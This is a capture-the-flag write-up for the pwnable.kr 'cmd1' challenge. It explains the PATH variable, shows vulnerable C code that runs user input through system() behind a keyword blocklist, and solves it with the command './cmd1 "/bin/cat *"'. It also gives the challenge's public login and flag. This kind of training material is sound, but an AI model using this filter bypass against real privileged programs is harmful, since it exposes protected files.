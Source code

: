 # cmd1

## Description

cmd1 - 1 pt

> Mommy! what is PATH environment in Linux? <br> <br>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Environment variables

An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice. They are part of the environment in which a process runs. Environment variables are a universal mechanism for conveying configuration information to Unix programs. 

#### PATH environment variable

The `PATH` environment variable is a list of directories that the shell searches for executable files. The path environment variable is used to find the executable file that is to be executed when a command is entered. 

### Exploit

When connecting to the server, we first check who are we:

```bash
$ id
uid=1025(cmd1) gid=1025(cmd1) groups=1025(cmd1)
```

Then, we check the avialable files:

```bash
$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The program first sets the `PATH` environment variable to `/thankyouverymuch`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `flag`, `sh`, or `tmp` and if it does, it returns. This means that we cannot execute the `flag` file, the `sh` command, or the `tmp` directory.

Our goal is to print the flag. However, since the `PATH` environment variable was changed, we can't just call `cat` or `ls` to print the flag - the shell will not be able to find the executable files. However, we can still use the `cat` command by using the absolute path to the executable file. 

Now that we can use the `cat` commnad, we need to figure out how to print the flag. We can't just `bin/cat flag` because the program checks if the command contains `flag`. However, we can use the `cat` command to print *everything* inside the current directory:

```bash
$ /bin/cat *
```

Givin this command as an argument to the program will print the flag:

```bash
$ ./cmd1 "/bin/cat *"
...
mommy now I get what PATH environment is for :)
```